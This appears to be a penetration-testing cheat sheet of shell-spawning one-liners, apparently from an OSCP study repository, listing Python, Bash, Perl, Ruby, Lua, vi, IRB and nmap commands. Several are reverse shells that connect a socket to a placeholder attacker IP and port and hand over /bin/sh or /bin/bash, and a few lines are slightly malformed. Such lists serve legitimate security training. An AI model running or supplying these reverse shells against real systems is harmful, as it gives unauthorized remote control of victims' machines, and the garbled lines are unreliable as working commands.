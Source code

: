# Shell Spawning
Use `which $spawning-tool`

<b>Python:</b>
```bash

python -c 'import pty; pty.spawn("/bin/sh")'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<[IP]>",<[PORT]>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
Bash:
```bash
echo os.system('/bin/bash')

/bin/sh -i
	
exec 5<>/dev/tcp/<[IP]>/<[PORT]> cat <&5 | while read line; do $line 2>&5 >&5; done
```

Perl:
```bash
perl —e 'exec "/bin/sh";'
	
perl: exec "/bin/sh";
	
perl -e 'use Socket;$i="<[IP]>";$p=<[PORT]>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
	
Ruby
```bash
ruby: exec "/bin/sh"
```

Lua
```bash
lua: os.execute('/bin/sh')
```

From within IRB:
```
exec "/bin/sh"
```

From within vi:
```bash
:!bash
```
From within vi
```bash
:set shell=/bin/bash:shell
```

From within nmap:
```
!sh
```



## References

[pythonmaster GO-FOR-OSCP](https://github.com/pythonmaster41/Go-For-OSCP/blob/master/README.md)